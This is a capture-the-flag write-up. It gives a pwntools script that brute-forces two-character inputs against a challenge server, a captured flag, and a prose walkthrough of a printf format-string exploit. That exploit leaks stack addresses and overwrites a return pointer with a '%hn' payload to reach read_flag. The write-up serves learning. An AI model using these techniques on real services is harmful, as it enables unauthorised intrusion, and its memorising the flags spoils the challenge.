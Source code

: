 ???


```python
import itertools
import string
from multiprocessing import Pool
from pwn import *
import tqdm

def check(i):
    p = remote('ggcs-bx01.allyourbases.co', 9171)
    p.recvuntil("> ")
    p.sendline(''.join(i))
    res = p.recvline()
    if b'Invalid' not in res:
        print("with: ", i)
        print("result: ", res)


tasks = list(itertools.combinations(string.printable,2))

pool = Pool(processes=8)
for _ in tqdm.tqdm(pool.imap_unordered(check, tasks), total=len(tasks)):
    pass
```

i used this script to check every printable 2 char combination to find vulnerabilities.

flag: `tRUNkated-EveRYTHinG-6761`


## bm03

this exploit centered around a printf vulnerability which could be found in the transaction dialog.  After a valid transaction it would print out the user name directly through through printf and as such was vulnerable to a string format exploit.  

My exploit was in two parts - one to leak the stack address and program base and one to take advantage of the %n string formatter to write the address of the read_flag function to the saved return pointer. 

my first payload was `%x.%364$x` which leaked the address of a variable on the stack and a pointer to something in the program code.  I determined the offsets from the base and used these values to find the location of EBP in the account menu function and the program base.  

I then used a payload like `%{address of read_flag}x%333$hn` to overwrite the return pointer.  the 333rd "argument" pointer to the first four bytes of the reference argument so I sent the address of the return pointer as the reference argument.  The goal was to pad out the left with a bunch of spaces matching the address of read_flag.  This value would then be written to the return pointer, allowing me to read the flag.  

Once the return pointer was overwritten I just had to return and it would load read_flag.  

The server wasn't running aslr so my address leaking exploit ended up being useless.  Good thing because the server was slow and I couldn't manage to leak address and then get the flag in the same session.  
